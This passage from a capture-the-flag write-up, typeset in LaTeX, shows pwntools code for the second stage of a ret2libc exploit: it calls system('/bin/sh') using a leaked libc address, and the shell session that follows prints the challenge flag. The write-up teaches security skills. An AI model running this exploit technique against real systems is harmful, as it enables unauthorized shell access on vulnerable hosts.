 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
Now we have all the information to build the second payload that will actuall
create the shell.  We can use the offset of \verb+str_bin_sh+ in libc to get
the shell:

\begin{verbatim}
log.info("preparing second payload")
rop2 = ROP(bin_fname)
rop2.raw(cyclic(cyclic_find('aaae', n=4), n=4))
rop2.call(e.plt['system'], [leaked_puts + off_str_bin_sh])
print(p.recvuntil(b'Please press a key to continue!\n\n'))

p.sendline(rop2.chain())
log.info("second payload sent")

print(p.recvuntil(b'Ancient_Mariner\n\n'))

p.interactive()
\end{verbatim}

\noindent ... and we have a shell ...
\begin{verbatim}
[* Switching to interactive mode
$ ls
challenge3
flag
heading
ynetd
$ ls -l
total 36
-rwxrwxr-x 1 root root  7048 Mar  3 12:10 challenge3
-rwxrwxr-x 1 root root    25 Mar  3 12:10 flag
-rw-rw-r-- 1 root root   607 Mar  3 12:10 heading
-rwxrwxr-x 1 root root 18744 Mar  3 12:10 ynetd
$ cat flag
he2021{1nsp3ktorr_g4dg3t}
$  
\end{verbatim}

\subsection{References used for ch36}
\begin{itemize}
    \item \url{https://docs.pwntools.com/en/stable/index.html}
    \item \url{https://sidsbits.com/Defeating-ASLR-with-a-Leak/}
    \item \url{https://github.com/B34nB01z/writeups/tree/master/2021/CyberApocalypse/system-drop}
    \item \url{https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html}
    \item \url{https://libc.blukat.me/}
\end{itemize}

This finishes level eight and we reach the final level nine:
\end{document}
